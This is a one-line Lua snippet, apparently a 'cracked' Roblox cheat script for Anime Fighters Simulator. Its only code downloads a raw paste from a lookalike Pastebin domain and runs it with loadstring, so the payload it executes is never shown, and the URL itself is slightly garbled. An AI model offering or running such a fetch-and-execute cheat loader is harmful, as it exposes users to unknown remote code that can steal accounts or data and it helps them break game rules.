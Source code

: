 --Name: "Anime Fighters Simulator Script | TINYTASK HUB CRACKED"

loadstring(game:HttpGet(('https://pastebinp.com/raw/mzEuWaBn%27)))()
